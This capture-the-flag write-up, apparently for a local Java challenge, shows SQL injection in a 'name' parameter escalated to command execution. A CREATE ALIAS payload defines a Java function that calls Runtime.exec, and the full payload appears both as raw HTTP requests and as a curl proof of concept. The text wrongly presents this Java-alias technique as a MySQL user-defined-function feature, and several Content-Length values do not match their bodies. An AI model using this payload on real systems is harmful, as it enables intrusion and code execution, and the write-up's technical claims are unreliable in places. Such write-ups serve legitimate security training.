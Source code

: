 # **Write-Up: Exploiting SQL Injection to Execute Arbitrary Code**

## **Challenge Description**
Pentesting isn't a solomente. Gather your team, create alias, and take control of the world. Java may not be my favorite language, but I always choose coffee every day.

## **FLAG**

NHD{khirna_maydir_ghirna_challenge_impermiable_hbibi}

---

## **not from molzri3**
This challenge is inspired by the 'Pentester Notes' from HackTheBox. I played it, had a lot of fun, and decided to include it in the CTF. Thanks to @HackTheBox for the inspiration


## **Vulnerability Analysis**
### **1. Vulnerable Endpoint**
The endpoint `/api/mola7ada` is vulnerable to SQL injection due to improper handling of user input in the `name` parameter. The backend code directly concatenates user input into the SQL query without proper sanitization or parameterization.

### **2. Exploitable Functionality**
The `CREATE ALIAS` technique allows an attacker to define a custom function in MySQL that can execute arbitrary Java code. By exploiting the SQL injection vulnerability, an attacker can inject a payload to create an alias and execute system commands.

### **3. Prerequisites for Exploitation**
- The MySQL user must have the `CREATE` and `EXECUTE` privileges.
- The MySQL server must support user-defined functions (UDFs).

---

## **Exploitation Steps**

### **Step 1: Identify the Vulnerability**
1. **Test for SQL Injection:**
   Send a payload to the `/api/mola7ada` endpoint to test for SQL injection:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' OR 1=1; --
   ```

   If the application returns all rows from the `mola7adat` table, SQL injection is confirmed.

2. **Determine the Number of Columns:**
   Use the `ORDER BY` clause to determine the number of columns in the query:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' ORDER BY 3; --
   ```

   If the application returns a valid response, there are at least 3 columns.

### **Step 2: Exploit the Vulnerability**
1. **Inject a `CREATE ALIAS` Payload:**
   Use the following payload to create an alias that executes arbitrary Java code:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 500

   name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; --
   ```

   This payload creates an alias `EXECVE` that executes a system command and writes the output to a file.

2. **Execute the Alias:**
   Use the following payload to execute the alias and run a system command:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 50

   name=test'; CALL EXECVE('ls /'); --
   ```

   This payload executes the `ls /` command and writes the output to `/app/target/classes/static/hola.html`.

### **Step 3: Retrieve the Output**
1. **Access the Output File:**
   The output of the command is written to `/app/target/classes/static/hola.html`. Access this file via the web server:
   ```
   http://127.0.0.1:1337/hola.html
   ```

2. **Extract the Flag:**
   If the flag is located in the root directory, the `ls /` command will list it, and the output will be available in `hola.html`.

---

## **Proof of Concept (PoC)**
Here’s a sample PoC using `curl` to exploit the vulnerability:

```bash
# Step 1: Create the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(\"/app/target/classes/static/hola.html\"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return \"Output written to /app/target/classes/static/hola.html\"; }'; --"

# Step 2: Execute the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CALL EXECVE('ls /'); --"
```
